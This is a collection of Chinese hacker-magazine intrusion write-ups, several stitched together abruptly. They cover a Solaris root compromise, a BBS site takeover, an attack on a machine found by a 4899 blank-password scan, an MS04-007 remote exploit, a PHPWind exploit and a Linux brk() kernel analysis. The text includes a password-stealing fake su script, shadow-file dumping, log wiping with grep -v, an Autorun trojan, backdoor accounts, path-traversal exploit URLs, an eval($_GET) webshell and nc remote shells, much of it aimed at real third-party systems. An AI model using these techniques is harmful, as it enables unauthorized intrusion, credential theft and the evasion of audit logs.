主机几乎把能开的端口全都开了，尽管如此，我依然无从下手，因为第一个普通口令并不是那么好拿的。以前看的资料里面这一步通常省略，或者随便敲几下键盘就会密码正确，但是我看着现实中的键盘，觉得这种方法有如天边的浮云……我首先想到的是远程溢出，于是把主机的服务挨个到网上找了一遍，没有一个可以远程溢出的。无奈之中想出一个希望比较渺茫的办法。我想想，主机不是开了 23 号端口吗，小 N 不是认为他的机器牢不可破吗，他又管不了同一网络内的其他机器。于是拿起针对 Windows 系统的勺子刀叉，半天下来还真的拿下了目标同一局域网的一台 Windows 机器，嗯，不错，偶然体验不说了，再说本文讨论的也不是 Windows 系统安全。我使用 DameWare 工具在这台机器上运行了 xsniff，如图 2。过了一天，我登录 Windows 上机检查，得到目标主机的第一个用户口令是意料之中的事情。本想用这台 Windows 机器做跳板，然后 telnet 登录目标机器，考虑到这只是测试性的“演习”，并且不想过多打扰这台 Windows 机器，于是帮他卸掉 DameWare 后使用自己的 cmd 登录，如图 3。

看着普通用户的 `$` 符号（root 用户的提示符为 `#`），我明白这顿饭小 N 是请定了，当然了现在还不行，我们打赌的时候可是说的要“拿下”主机，把得到普通用户权限叫做拿下似乎有点牵强，只有得到了 root 权限，才可以。我们的演习继续进行！经过一番搜索，我在网上找到一个针对 Solaris 系统的本地溢出代码，该溢出程序针对的是一个叫做 CDE libDtHelp LOGNAME 的本地缓冲区溢出，国内安全网站对它的详细描述如下：

> libDtHelp 库是 CDE 环境的核心组件，提供多数 CDE 应用程序的帮助子系统。libDtHelp 库存在缓冲区溢出问题，本地攻击者可以利用这个漏洞获得 root 用户权限。漏洞是由于 libDtHelp 库对环境变量 LOGNAME 缺少正确的边界缓冲区检查，本地攻击者提交超长的 LOGNAME 数据可使任何链接 libDtHelp 库的应用程序发生缓冲区溢出，精心构造变异数据可能以 root 用户权限执行任意指令。

| 受影响系统 |
|---|
| CDE libDtHelp |
| HP-UX 11.11 |
| HP-UX 11.23 |
| HP-UX 11.22 |
| HP-UX 11.20 |
| HP-UX 11.11 |
| HP-UX 11.04 |
| HP-UX 11.0 |
| Sun Solaris 9.0 |
| Sun Solaris 8.0 |

# 一个人的战争

这下子就好办了，高兴之余没有忘记在远程系统中编译刚刚下载回来的 exploit 代码。不编不知道，一编吓一跳：主机上面居然没有 gcc，连 cc 也没有，如图 4。没有 C 语言编译器，还搞个什么呀！虽然这里被小小地卡了一下，但是这并不算是令人失去信心的困难。

```bash
$ gcc
gcc: not found
$ cc
/usr/ucb/cc: language optional software package not installed
```

提升权限的代码都找到了，离 root 就差半厘米的距离了，肯定不能轻易放弃，于是我准备在其他的系统下编译它。打开自己的 VMware，启动虚拟系统，编译程序，一切按部就班！可惜，屋漏偏逢连夜雨，编译失败，似乎少了一个叫做 systeminfo.h 的头文件。由于对 Linux 环境下编程不是很熟悉，于是求人请教，找帮我去找到一个做 Linux 版入侵系统的高手——暗夜，他建议我去网上下一个头文件回来，我觉得也是个好办法，所以很快找到了这个东西，再编译代码，于是我们看到了图 5 里面的文字：我的 Linux 郁闷地告诉我，编译又失败了！

看来在其他系统下编译溢出代码的路走不通，也许 systeminfo.h 里面的数据定义是每种系统不同的吧，也许这个代码只能在 Solaris 的机器上编译。要怪只能怪自己没用过 Solaris，脑袋里面没货。既然不了解 Solaris，那我就马上学，打开 Google 查找关键字“solaris 系统管理”。经过半个小时的快速充电，我又学到了一些新的东西，拣几个有用的说：Solaris 默认没有 gcc 和 cc 编译器的，要使用必须自己安装。如果要查找系统中是否有 gcc，可以使用命令 `whereis -b gcc` 来查找 gcc 的位置。于是马上在我们的目标主机中查找是否有现成的 gcc，如图 6。

```bash
$ where
where: 没找到
$ whereis -b gcc
gcc: /usr/local/bin/gcc
```

找到 gcc 了，终于体会到什么叫做“柳暗花明又一村”了吧。重新把刚才删掉的溢出程序下载回来，如图 7，当然也可以新建 c 文件把代码粘上去。

```bash
ftp> get lib11.c
200 PORT command successful.
150 Opening BINARY mode data connection for lib11.c ...
226 Transfer complete.
```

编译出来运行，结果让人失望，我看到的命令提示符依然是“$”而不是“#”。也许主机打上了相应的补丁，也许是我方法有误，也许是我人品问题，不管什么原因，反正现在面对的现实就是本地溢出不成功，如图 8。

```bash
$ ls
...
$ re lib*
$ ls
...
$
```

都到这一步了，真是让人不甘心，看来这个漏洞的利用不是很成功，换个漏洞试试。我就不信管理员这么勤快，每个漏洞都及时打上了补丁。继续在网上寻找，经过一番努力，找到了我的目标，我又找到了 2 个漏洞的利用程序，其中一个叫做“Solaris 实时连接器 ld.so.1 本地缓冲溢出”，国内安全网站对它的描述如下：

> Solaris 的运行时链接 `/lib/ld.so.1` 存在缓冲溢出漏洞，如果存在动态连接，本地用户就可获得提高的权限，执行文件系统的 SUID/SGID 程序。典型安装的 Solaris，SUID/SGID 程序存在该缺陷。在实时连接时，可变的 LD_PRELOAD 环境会迫使 ld.so.1 装载特殊的库文件，如果 setuid 或 setgid 已装载，将会在定义数据库中检查它的值来阻止恶意用户进行连接，此时连接器只接受信任目录下的库文件，导致产生溢出缺陷。当 LD_PRELOAD 值的开始和结束位置包含斜杠和 1200 个字符，将触发缓冲溢出。

```bash
$ LD_PRELOAD=... passwd
ld.so.1: passwd: warning: ...
open failed: illegal insecure pathname
Segmentation Fault (core dumped)
```

此漏洞只影响安装了如下特定补丁的系统：

- SPARC 平台
- Solaris 2.6 使用了 107733-10 而没有采用 107733-11 补丁
- Solaris 7 采用了 106950-14 到 106950-22 补丁而没有采用 106950-23
- Solaris 8 采用了 109147-07 到 109147-24 补丁而没有采用 109147-25
- Solaris 9 没有采用 112963-09 补丁

第 2 个漏洞叫做“passwd circ() 本地缓冲区溢出”，没有找到对它的描述。但是后来试了，很好用。马上进行代码编译，先编译出来的是“Solaris 实时连接器 ld.so.1 本地缓冲溢出”的代码，编译后的名字叫做 ldpreload，输入的编译指令是：`gcc raptor_ldpreload.c -o ldpreload -ldl -Wall`，编好后运行，效果如图 9。

看见我们可爱的“#”提示符了吧！现在拿到 root 了。本打算现在找小 N 交差，想想算了，他这几天肯定会天天检查机器，何不利用这个机会来搞一个保持权限的游戏呢？嗯，先到处逛一逛，用 `cat /etc/shadow` 把密码文档抓了下来，如图 10。把 cmd 上面的这些文字拷贝出来放在一个叫做 shadow 的文本文件里面，使用一个较小的密码字典配合 Unix 密码破解程序 John 来试图破译其他用户的口令，如图 11。

看看，不久便找到另一个用户的 history 文件，打开后看到如下内容：

```bash
## cat .bash_history
cd resin-2.1.6.tar.gz
./httpd.sh starty
./httpd.sh start
vi ../conf/resin.conf
vi httpd.sh
./httpd.sh start
mv /httpd.sh
ls -al /oracle/resin-2.1.6/log/xjw-st
su - root
su - root
su - root
su - root
su
```

这个用户必定就是 root 的化身了……据此信息我写了如下的脚本：

```sh
#!/bin/sh
echo -n 'Password:'
stty -echo; read PASSWD; stty echo
echo "$PASSWD" >> /man/help/lib/man/.../.pswd
echo ''
echo 'su: 对不起'
rm -f /bin/su
cp -p /man/help/lib/man/.../s~ /bin/su
```

这里解释一下如何使用这个假 su 脚本……最后设置 su、rm、mv 的权限，如下：

```sh
chmod 777 su
chmod 777 rm
chmod 777 mv
```

好了，假的 su 程序已经安装完毕，接下来清除日志准备走人了。就像小 N 讲的那样，好像用户密码很强壮，没有破解出来……然后去找其他用户的 history 文件来继续。

- utmp —— [记录当前 login 的用户]
- wtmp —— [记录每次用户 login 和 logout]
- utmpx —— [utmp 的扩展]
- wtmpx —— [wtmp 的扩展]
- sulog —— [每次 su 命令的使用]
- xferlog —— [FTP login 记录]
- lastlog —— [记录最近用户成功 login 信息]
- loginlog —— [错误 login 记录]
- messages —— [后台程序消息记录]

我们通常是利用 `grep -v` 这个命令来清理痕迹的。以 wtmp 文件来说，`cat wtmp | grep -v "我的登录名" >> temp` 这样的命令可以把含有我的登录名的信息从 wtmp 文件中去掉，然后把剩下的信息创建到名为 temp 的文件中去，再然后使用 `mv temp wtmp`，用 temp 文件覆盖原来的 wtmp，这样就去掉了原来 wtmp 文件中关于我的信息。那个登录名当然也可以换成 IP 地址，反正就是跟我有关的信息都把它去掉。

于是，把以上的 2 条清理日志的命令用于每个日志文件，或者写成一个批处理的脚本，以后要清理痕迹运行一次就可以了。当然，使用专门的程序来做这个工作也可以。清除痕迹后发现已经凌晨 3 点 40 了，再不睡觉要死人了。3 天后，再次登录，`/man/help/lib/man/.../.pswd` 里面保存的天文数字般的 root 口令忽然乖乖地等着我的光临。

又过了 2 天，小 N 找到我，说：“怎么样，你没办法吧？”。我拍了拍他的肩膀：“周末去吃大盘鸡，对了，下个月记得买《黑 X》看啊”。

（文章中涉及到的本地溢出程序 `ldpreload.c`、`lib1.c`、`lib2.c`、`r.passwd.c` 以及 `nmap` 已经收录于岁月痕迹光盘中）

周末，我们 F.W.S.T（FREE 网络安全小组）小组又相聚在一起，向往常一样，开始对一些网站进行安全检测，我把目标锁定为 `http://dj****.net/hack/bbs/index.asp`，这个网站的界面感觉好眼熟呀，记得我黑过类似的网站，应该是存在 `upload.asp` 漏洞，如图 1。

> 找不到文件 `D:\www\dj2008\net\c7cfhiyg5\hack\database\1#2@.mdb`。`/hack/bbs/setup.asp`，行 4

果然有上传页面，但是上传的接收页面已经被删除了，如图 2。毕竟也是个黑客站点啊，想这么容易地入侵对方，哪有这么轻巧呀。还好，在对方的网站上找到了个 bbs，bbs 是目前最容易出问题的了，特别是 asp 的 bbs 程序，更何况对方使用的还是 bbsxp 的论坛……希望很大哟！

先来看看数据库漏洞是否存在。随便进入一个页面，把第二个斜杠换为“%5c”（最终跳转为 `http://dj2008.net/hack/bbs/%5cShowForum.asp?forumid=5`），如图 3。

> `Microsoft JET Database Engine 错误 '80004005'`

成功地暴出了数据库，看着不久的将来，这个黑客站点就可以搞定了。兴奋之中，把数据库下载下来，准备爆破。把数据库的 md5 挂在肉鸡上狂跑，半个多小时后，我晕，竟然没有破解到？！看来有点难度呀。管理员不是白痴啊，没有设置过于简单的密码，其实早该想到的，只是想碰碰运气而已。既然此路不通，只有另想他法了。高级入侵法——社会工程学，呵呵，吓吓你们，其实还是来碰碰运气了。在数据库内 clubconfig 这个字段，我看到了些有用的东西，就是管理员的邮箱地址和他的邮箱密码，如图 4。

登录邮箱，果然登录成功了，不知道为什么管理员会犯这样低级的错误。先来看看有没有重要的信息，遗憾的是没有得到多少重要资料。但是 bbsxp 有个取回密码的功能，应该是通过邮箱的，但是还要知道管理员的出生年月日才可以取回密码。于是我立刻查找他的相关资料，结果还是一无所获。看到他还有另外的个人主页，才知道这位站长还不过 15 岁，真是“自古高手出少年啊”！

想来想去，我就想到了旁注（为什么一开始不考虑旁注呢？因为一般的黑客站点，服务器都会被设置得比较安全。另外，一般的旁注漏洞也都会被补上）。我检测了一下服务器上的另外一个站点，如图 5。

哈哈，终于成功了！先看看他有没有相关的首页备份，那样的话就可以恢复过来了。我找到了一个 `index2.htm`，看了一下代码，好像是哦，来访问看一看，如图 7。

果然不错，我用这个文件重新替换掉对方的 `index.asp`，现在对方的首页就完全正常了。本来想进一步看看，能否渗透到服务器，可是权限实在是设置得太严格了，所有的目录不可以访问，就连 `c:\winnt`、`c:\program` 等目录都浏览不到，cmd 也执行不了，基本上无法入手。看来，服务器的安全还是做得不错的，就是出了点小小的失误。引用前辈们的一句话：没有攻不破的电脑，没有取不到的权限，呵呵。

本次入侵结束只是花了一些思路的分析，在入侵的时候千万不要轻易放弃，积累经验也是很重要的。虽然这个站点被我成功入侵了，但是它的安全的确做得不错。而且这个黑客站点的站长，竟然只有 15 岁，呵呵，不得不让我们佩服啊！看来我们中国的网络界，有希望了！

> （文章中涉及到的工具：辅臣数据库浏览器、海阳木马 2006，已经收录于光盘中）

呵呵，这个也没有漏洞。不过，站点很多，最后还是被我给找到了一个有漏洞的站点。也许是因为这个站点新开的吧，所以那位管理员还没来得及检查。是个 `UPFILE_SOFT.ASP` 漏洞哦，用工具上传，立刻得到了一个 webshell，看来希望来啦。我又上传了一个仿杀的海阳 2006，但是所有的目录却都无法访问，CMD 也用不了，难道他的服务器的安全设置做到了这种地步？希望好渺茫呀，连浏览那几个常见的 everyone 权限目录都不可以！

正准备闪人的时候，突然想到了前面我们暴出数据库的时候，不是连它的物理路径都已经知道了么？那么我们用我们的小马，直接写入一个大马到目标网站，可不可以呢？！想到不如做到，开始测试，写一个木马到 database 目录下，竟然显示“save success”。兴奋之中，立刻去访问，谁知道竟然出现的是“页面不存在”，连续试了好几个目录，都不行，我！我的心情又跌入了谷底，走人吧。

正准备走人的时候，脑海中突然闪过一丝灵感：会不会不允许新建文件，但是却可以修改文件呢（因为我以前得到 shell 的时候，有过这样的经验：新建一个文件不可以，却可以修改原有文件的内容）？！找个原有的页面继续来测试，一开始由于心态急了，我竟然用它的首页 `index.asp` 测试，不过测试成功了。就在这一刻，我有点后悔了：别人的首页啊，给我改了，那怎么办啊？万一站长没有备份岂不是很糟糕！我重新找了个另外的页面换成了 shell，这次我使用的是 bbs 的 `help.asp` 来写入 shell，如图 6。

# 一个人的战争

## 一波三折的入侵

学习黑客技术才短短一年，但看看硬盘里的黑客工具已经有近 1GB 了，这还要感谢《X 档案》，每期光盘都提供好多非常好的工具。要不然像我这种使用电话线上网的菜鸟，真难以想象下载软件要浪费多少时间和金钱。本文是我的一次入侵总结，适合菜鸟学习。

## 1. 天赐良机

周末在家上网，忽然有一种想找只肉鸡的冲动，但我只是个菜鸟，不会入侵网站再提升权限，只能拿出 4899 空口令扫描器填个 IP 段扫描。才过 10 多分钟，一看结果令人吃惊，有 11 台空口令的（感谢上帝，这年头还有空口令肉鸡，实在是太幸运了！）。连上以后发现基本都是游戏一族的个人电脑（这种状况真是令人担忧），ADSL 上网 IP 是动态的，利用价值不大。唯有一台让我动了心，如图 1，硬盘还不到 5GB，里面只有系统文件、驱动程序和 GHOST（镜像工具，地球人都知道！），估计是一台服务器。


## 2. 一波三折

我用 superscan3.0 扫描那台肉机，发现有 21、80、3389、4899 等端口，访问网站发现只有“网站建设中”一页，连接 3389 证实是 WIN2000 SERVER 版。先上传木马，再挖掘 4899 自解压木马上传到肉鸡的 C 盘，然后准备 telnet 让它运行，谁知竟然发生了意外，如图 2，这次要求输入密码了。看来是有人捷足先登或者是被管理员发现了。


幸好文件管理窗口还没有关闭，我拿来一大叠的《X 档案》开始找解决方法，经过分析后决定用 Autorun 文件，先在本地 C 盘新建一个 Autorun.inf 文件，内容如下：

```ini
[Autorun]
open=e:\muma.exe（木马的路径）
```

保存后将属性设为隐藏，上传到肉鸡的 C 盘，只要有人双击 C 盘，木马就会自动运行了。我设置的端口和密码完全生效，以防万一，我又在本地新建了一个快捷方式指向木马程序，上传到肉鸡的启动目录下。呵呵，这下我看你往哪儿跑。一看时间已经 12:30 了，马上关机睡觉。

第二天用设置好的端口连接，输入密码后成功了。先建个管理员账户，不是开了 3389 吗，今天终于可以体验一下 3389 的快感了。谁知意外再次发生，如图 3，超出了最大允许连接数。急忙找回顾一次，原来只要在 CMD 下运行“logoff 1”即可，再一次用 3389 登录，OK，如图 4。打开任务管理器，发现还有一个用户名为“XXX$”的在肉鸡上，估计也是个入侵者。到处转了一圈，发现内网还有近 100 台 Win2000 的机子，共享的大多是游戏，看来自网吧的服务器。原以为文章可以到此为止，但意外第三次发生……


第三次我又从 3389 登录，竟然说用户名或密码错误，telnet 后才知道账户被删了，可恶，一定是那个“XXX$”干的。管理员可能把后门账户“$”删除了。如果是真正的管理员，不会把他的账户留下而只删了我的。一山不容二虎，他先下手为强。我重建账户后再以 3389 登录，删了他的账户，但我还不放心，也许他也留了后门，于是从网上下载杀毒软件（当然不是诺顿，要为自己的 4899 木马着想），安装后将整个硬盘查杀一次，发现病毒有 10 多种，好可怜的肉鸡，幸好遇上了我。今天来个“大屠杀”，到此文章基本上可以结束了，肉鸡已经成功地搞定了。

## 3. 总结

这次入侵成功主要凭一开始运气好，不然就不会有本文了，但我要告诉大家的是扎实的基础是最重要的，希望像我一样的小菜鸟平时多多看书学习（尤其是《X 档案》），积累知识，不要当时认为不紧要的就忽略了，等到有用时又急忙忙去找，正所谓有备才能无患！

（文章中涉及到的 4899 空口令扫描器、superscan3.0 已经收录于当期光盘中）

# Windows ASN.1 远程溢出漏洞利用实战

sagi

Abstract Syntax Notation 1（ASN.1）是 IT 行业中许多应用程序和设备所使用的一种数据标准，可以使用它来标准化和理解各种平台中的数据。2004 年 2 月，微软公布了其操作系统中 ASN.1 库所存在的一个非常严重的安全漏洞（MS04-007），该漏洞是由微软 ASN.1 库中未经检查的缓冲区引起的，攻击者成功利用该漏洞，可以在远程电脑上以系统权限执行任意代码。

随后在网上也公布了一个拒绝服务攻击程序，但真正的远程溢出程序却迟迟未见踪影。因此，该漏洞并未引起人们的注意；直到一年后的今日，远程溢出程序才被公布在了网上。好了，下边我就为大家详细介绍一下该程序的使用。

网上公布出来的溢出程序虽然是 perl 编写的，但是只能直接使用在 UNIX/Linux 以及 CYGWIN 环境下，在 Windows 环境下直接使用会出错。为了照顾我们广大的菜鸟，我简单地将程序转换成了在 Windows 下可以直接运行的 exe 文件。好了，先来看看该程序的详细使用说明，如图 1。


使用很简单，`winasn -p <port> -s <service> host`。不过，令我感到意外的是该漏洞可以通过五个不同的服务来进行远程攻击，包括服务器常用的 IIS 服务（80 端口）、SSL 服务（443 端口）以及 SMTP 服务（25 端口），还有 NetBIOS 服务（139 端口）及 SMB 服务（445 端口）。看来，这个漏洞不仅会影响到个人用户，服务器也会受到影响啊。打开 superscan3.0，填上 IP 地址 192.168.0.1—192.168.0.254，选择端口从 135—445（当然你也可以选择 80—445 端口）开始扫描，发现了许多开放 139、445 的电脑，如图 2。


我们就以扫描到的 192.168.0.2 为目标进行测试，`G:\test\winasn>winasn -p 445 -s smb 192.168.0.2`，程序提示了我们：“nc 1 不是内部或外部命令，也不是可运行的程序或批处理文件。”出现这个提示，还是因为在源程序中调用了 system 函数来执行 nc 连接对方的溢出端口，因为我们并没有把 nc 与 winasn 程序放在同目录下，所以调用才会出错。不过，根据上边的提示“Attempting to connect to shell on port 8721”，溢出已经完成了，所以我们另外运行 nc 来连接对方的 8721 端口就可以了，如图 3。


`nc -vv 192.168.0.2 8721`，成功得到了对方的一个 cmd shell，如图 4。添加账号、启动 telnet 服务什么的也是完全可以的，如图 5。


让我们再来看一下利用 IIS 服务器的攻击，`F:\winasn\winasn -s iis 192.168.0.66`，因为这次我把 nc 与 winasn 程序放在一起，所以溢出直接得到了对方的 cmd shell，如图 6，其他服务的利用格式与 SMB、IIS 的类似。


虽然这个漏洞是 04 年的老洞了，但是因为当时只出现了拒绝服务攻击程序，并没有出现溢出程序，所以很多人都忽视了该漏洞，并没有打上补丁，仅仅是使用防火墙拦截了对 139、445 端口的访问。随着这个溢出程序可以通过 IIS 服务来触发，如果再将程序调用的 shell 改成反向连接的话，没有打上补丁的网管们，要小心了！

# 一个人的战争

哈哈，看到题目了没有？免费的哦！前面，先别心急，不是说“心急吃不了热豆腐”吗？好了不说废话了，切入正题，上次在 01vv.cn 上买了个 100M 的 ASP 空间，还有一个国际域名 www.HUAorg.com。现在的站点大多数使用的是虚拟主机，也就是说一个服务器上有 N 多个网站，也许有人会问一个 IP 地址上如何实现多个站点相对的独立呢？

呵呵，我 ping 了下我的域名，IP 为 211.142.183.38，然后在 IE 中输入 http://211.142.183.38/，出现的是服务器通告，如图 1，而不是我的站点。


图 1

为什么会这样呢？网页服务器又是如何分辨各个域名的呢？我抓包分析了一下，原因在于 HTTP 协议的 HOST 标签：

```http
GET /z/ HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, */*
Accept-Language: zh,zh-cn;q=0.9,zh-tw;q=0.7,zh-sg;q=0.6,zh-hk;q=0.4,zh-mo;q=0.3,ja;q=0.1
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; .NET CLR 1.4322)
Host: www.huaorg.com
Connection: Keep-Alive
```

服务器就是通过这个标签来实现各站点的访问，有的站点只绑定了 WWW 开头的域名，而 XXX.com 的这类域名却没有绑定，聪明的你一定想到了吧：使用别人没有绑定的域名给自己的站点用。反正是虚拟主机，一个 IP 上绑了那么多的域名，而且都是指向同一个 IP，省去了要得到人家域名资料的麻烦，随便找出几个没绑定的域名是没有问题的。

拿出老兵的虚拟站点查询工具，填入我的域名 HUAorg.com，如图 2。


图 2

哇！一个 IP 绑定了 232 个域名。哎，懒得写工具了，就手工一个一个找吧！没过几分钟，就发现 http://www.03746311722.com/ 与 http://03746311722.com/ 是不同的。用 www.03746311722.com 访问时是正常页面，也就是说解析成功；用 03746311722.com 访问出现的是和图 1 中一样的服务器通告，这就表明 03746311722.com 没有被绑定。哈哈，既然这样还不赶快动手，又找到了几个没被绑定的域名：0598sw.com、01qq.net。马上登录虚拟主机的 WEB 管理页面，填入刚才找到的域名，如图 3。


图 3

http://03746311722.com/、http://0598sw.com/、http://01qq.net/，看到的都是自己的站点，呵呵，真是欣慰啊，如图 4。


图 4

我找了 10 个域名，其中就有 3 个是空的。看来有相当一批域名都被浪费了，这么好的国际域名有的卖到几百块，浪费了多可惜啊。呵呵，有虚拟主机的站长现在可以试一试了！GOOD LUCK！（文中涉及到的虚拟站点查询工具，已经收录于当期光盘中）

# 黑客研究院

PHPWIND 论坛是一款流行的 PHP 论坛，界面美观、功能较强。文中对其与 DISCUZ 的安全性进行对比，并指出 PHPWIND 虽然代码严谨、逻辑清楚，但仍存在漏洞且影响较重。

```php
@extract($_GET,EXTR_SKIP);
@extract($_COOKIE,EXTR_SKIP);
@extract($_FILES,EXTR_SKIP);
```

系统在 global.php 中再次释放变量，因此无论 GET/POST 都可把构造好的 `$skin` 变量传入程序；这成为漏洞利用关键点。

## 一、skin 变量未过滤导致管理员密码更改

废话少说，我们来分析漏洞。漏洞代码如下（header.php）：

```php
<?php
if(function_exists('readover') && exit('Forbiden'));
if(!$skin) $skin=$db_defaultstyle;

if(file_exists(R.P.'data/style/$skin.php')){
    include_once(R.P.'data/style/$skin.php');
} else {
    include_once(R.P.'data/style/wind.php');
}

$eyestyle=='no' ? $table='bgcolor=$tablecolor' :
$table='class=table';
if($groupid=='guest' && $db_regpopup=='1'){
    $head_pop='head_pop';
} else {
    $head_popmsg=$winddb['newpm']!='1' ? '<font color=red>您有新消息</font>' : '短消息';
}

require_once(PrintEot('css'));
require_once(PrintEot('header'));
?>
```

```php
if(file_exists(R.P.'data/style/$skin.php')){
    include_once(R.P.'data/style/$skin.php');
}
```

含义是如果 `R.P.'data/style/$skin.php'` 存在就包含该文件。文中给出最简单且危害较大的利用方式：将 `$skin` 设为 `../../../admin/manager`，使其指向可执行管理程序。

继续分析 `$skin` 来源：在到达漏洞点前，若 COOKIE 中存在 `skinco` 会赋值给 `$skin`，否则提交参数可原样进入漏洞代码。即便关闭 register_globals，仍可通过变量释放机制影响该值。

```php
if(ini_get('register_globals') || !get_magic_quotes_gpc()){
    @extract($_POST,EXTR_SKIP);
}
```

文中给出示例访问：`http://localhost/phpwind/faq.php?skin=../../../admin/manager&tplpath=admin`，并展示后台页面效果。


图 1

- 其中 `tplpath` 变量非常重要，必须是 `admin`，它是 template 路径；参数错误将无法显示。已知用户名后，可进一步构造请求修改密码：`http://localhost/phpwind/faq.php?skin=../../../admin/manager&username=admin&password=xiaohua&check_pwd=xiaohua&action=go`。上面的几个参数的含义大家一看就明白，那个 username 必须填上面看到的用户名，密码自己设，上面的 action 必须有值。提交后系统什么都不显示，没关系，我们再用第一次的方法就会发现两次密码不一样，证明我们改成功了。

密码改了，我们就可以从管理页面登录了，如图 2，`http://localhost/phpwind/admin.php`。


### 二、后台利用，上传 SHELL

本来改了管理员密码已经能控制论坛了，但我觉得不上传 SHELL 事情只算做了一半。如何上传 SHELL，这就要用到后台的功能了……分析一下风格模板设置那个地方，点一下左边的链接，右边会显示 `/template/wind/css.htm`。

系统提供的功能简单理解就是可以任意编辑这个 CSS 文件……如果我们能给这个 css.htm 文件写一些 PHP 代码，就相当于我们写了一个 SHELL。把右边 textarea 里面的换成下面的，然后点提交就行了。

```php
<style type="text/css">
</style>
<?php
$md='<<<EOT\n...\nEOT;';
eval($_GET[myphpcode]);
?>
<?php
print <<<EOT
...
EOT;
?>
```

```css
<style type="text/css">
TABLE { BORDER-TOP: 0px; BORDER-LEFT: 0px; BORDER-BOTTOM: 2px ... }
SELECT { FONT-SIZE: 9pt; COLOR: #000000; BACKGROUND-COLOR: $forumcolorone; }
A { TEXT-DECORATION: none; }
a:hover { text-decoration: underline; }
BODY { font-family: Verdana; FONT-SIZE: 12px; color: #000000; background: #ffffff; }
...（大量 CSS 样式）...
</style>
```

大家最好按上面的构造，当然也可以自己构造，不过上面的方法我做过实验，成功率很高。保存之后，用下面的方法就可以利用了。

```text
http://localhost/phpwind/faq.php?myphpcode=echo%20system(dir);exit;
```


# 黑客研究院

可以运行其它 PHP 语句，在此不再赘述。好了，到此文章就写完了，大家可以参考上面的，自己再分析一下论坛。

大家如果要测试漏洞，可以在自己的电脑上架一个服务器。本文另一个目的是希望大家跳出思维的束缚，不要把眼光停留在 SQL 注入，SQL 注入很实用，但是技术已经明朗，写程序的一般都会注意，已经很少有大型系统出现 SQL 注入了。因为漏洞的利用非常简单，我就没给大家提供演示程序，本来想做个动画，后来觉得上面文章写得也非常清楚了，再做动画有骗稿费的感觉。我非常希望大家和我交流技术问题，共同进步。

# 三、总结

写文章的目的是让大家学会分析，自己研究才会有进步，把研究的结果公布才会提高网络的安全水平，不是让大家去入侵。我很少入侵网站，更不会帮助别人入侵。


近年来，国内安全界的新手越来越多（我就是其中一个），这是值得 happy 的，但很多人都对 Linux 的安全漏洞不够了解。本文只是想让新手们对 Linux 有些了解。brk() 漏洞是 Linux 的一个内核级漏洞，它并不属于缓冲区溢出漏洞……看了本文或许你就清楚了。

先来了解一下什么是 uid，uid 是用户标识符……它们都保存在 task_struct 里面。系统给每一个进程都分配了 task_struct，它就相当于 PCB，这个数据结构在 3-4G 的内核地址，一般的权限是修改不了的。下面的代码位于 include/linux/sched.h 中。

```c
struct task_struct {
  /* these are hardcoded - don't touch */
  volatile long state;      /* 进程的状态 */
  unsigned long flags;      /* 进程标志 */
  int sigpending;
  mm_segment_t addr_limit;  /* 线程地址空间 */
  struct exec_domain *exec_domain;
  long need_resched;
  ...
  uid_t uid, euid, suid, fsuid; /* 进程用户标识符 */
};
```

好了，大家都知道 euid、suid、fsuid、egid、gid 等值的作用之后……brk() 漏洞就是利用了这个原理。何谓 brk？系统调用 brk 是一个在 C 库函数 malloc 和 free 中的操作，进程的 brk 值是位于进程堆空间和它前堆之间的转折点……我们写个程序就可以清楚进程内核的状态。

```c
#include <stdio.h>
#include <stdlib.h>

static void hack(void *p, const char *wolfboy){
  printf("%p: %s\n", p, wolfboy);
}

int main(void){
  int i;
  hack(&i, "...的地址...");
}
```

```c
// 前面都在栈里
hack(&i, "i 的地址");
hack((void *)hack, "hack 函数地址");
hack((void *)main, "main 函数地址");
hack(malloc(1), "第一个堆地址");
hack(malloc(1), "第二个堆地址");
return 0;
```

这个程序在不同的系统下结果可能会有点不同，这是由于内核和 GCC 的版本引起的，但无论怎样，大概输出都差不多，我的 2.2.15 内核输出如下：

```text
0xbffff824: i 的地址
0xbffff820: j 的地址
0x80484c0: hack 函数地址
0x80484bc: main 函数地址
0x80496f8: 第一个堆地址
0x8049708: 第二个堆地址
```

不难看出，栈从“0xC0000000”处向下生长，代码从“0x80000000”处开始，堆在代码上部向上生长。可能有些读者朋友们对两个堆的地址差异那么大感到奇怪，其实 Linux 堆的地址有一定的存放规律。这里加入我个人说法：“brk 就是用户堆最高可达到的地方（堆是向上生长的呀）。”

而 sys_brk 等系统调用就是用来提高 brk 的值的。某菜鸟问道：“brk 的值最上限是 3G 吗？”“NO，不是。”我断然回答。

呵呵，现在想到什么了吧！brk 漏洞怎样形成的？在系统调用 sys_brk 中，并没有对 brk 的值是否超过 3G 做检查，而导致 brk() 漏洞的存在。下面我们分析一下我的系统 2.2.15 内核的 sys_brk 系统调用（2.2.15 和 2.4.2 中不同，一个是 sys_brk 调用之后用 do_mmap 来对堆进行操作，一个是用 do_brk 来实现的）。

```c
asmlinkage unsigned long sys_brk(unsigned long brk)
{
    unsigned long rlim, retval;
    unsigned long newbrk, oldbrk;
    struct mm_struct *mm = current->mm;
    down(&mm->mmap_sem);
    lock_kernel();
    if (brk < mm->end_code)
        goto out;
    newbrk = PAGE_ALIGN(brk);
    oldbrk = PAGE_ALIGN(mm->brk);
    if (oldbrk == newbrk)
        goto set_brk;
    if (brk <= mm->brk) {
        if (do_munmap(mm, newbrk, oldbrk - newbrk) == oldbrk)
            goto set_brk;
        goto out;
    }
    ...
}
```

```c
    goto set_brk;
    goto out;

    rlim = current->rlim[RLIMIT_DATA].rlim_cur;
    if (rlim < RLIM_INFINITY && brk - mm->end_code > rlim)
        goto out;
    if (find_vma_intersection(mm, oldbrk, newbrk + PAGE_SIZE))
        goto out;
    if (!vm_enough_memory(newbrk - oldbrk) >> PAGE_SHIFT)
        goto out;
    if (do_mmap(NULL, oldbrk, newbrk - oldbrk,
        PROT_READ|PROT_WRITE|PROT_EXEC,
        MAP_FIXED|MAP_PRIVATE, 0) != oldbrk)
        goto out;
set_brk:
    mm->brk = brk;
out:
    retval = mm->brk;
    unlock_kernel();
    up(&mm->mmap_sem);
    return retval;
```

好，现在我们来看看 2.4.2 的 sys_brk：

```c
asmlinkage unsigned long sys_brk(unsigned long brk)
{
    unsigned long rlim, retval;
    unsigned long newbrk, oldbrk;
    struct mm_struct *mm = current->mm;
    down_write(&mm->mmap_sem);
    if (brk < mm->end_code)
        goto out;
    newbrk = PAGE_ALIGN(brk);
